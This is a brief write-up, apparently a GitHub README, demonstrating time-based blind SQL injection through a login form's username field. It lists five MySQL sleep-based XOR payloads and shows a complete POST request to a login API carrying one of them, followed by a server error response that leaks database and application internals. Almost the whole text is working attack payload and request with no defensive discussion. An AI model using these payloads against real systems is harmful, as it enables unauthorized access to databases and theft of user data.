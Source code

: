 # SQLI-INJECTION-VIA-USERNAME-PASSWORD-FIELD
SQLI INJECTION VIA USERNAME PASSWORD FIELD

PAYLOAD :
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z
```

REQUEST :

```
POST /*/api/auth/login HTTP/1.1
Host: target.com
Content-Length: 135


{"username":"0'XOR(if(now()=sysdate(),sleep(35),0))XOR'Z","id":"27","password":"cc4226104294e44c5cec9f31cb6de7fa4597e4321b277f4e4b78c3a0ff980956"}
```

RESPONSE :

```
HTTP/2  500 Internal Server Error Server:
nginx Date: Mon, 27 Dec 2021 16:01:42 GMT
Content-Type: application/json

{ "error": 3, "message": "MySQL Query Failed: Nyotron. Core. DataAccess.
 NyotronDbContext. AddActivityLogAsyn c due to: Data too long for column 'doer' at row 1" }
```
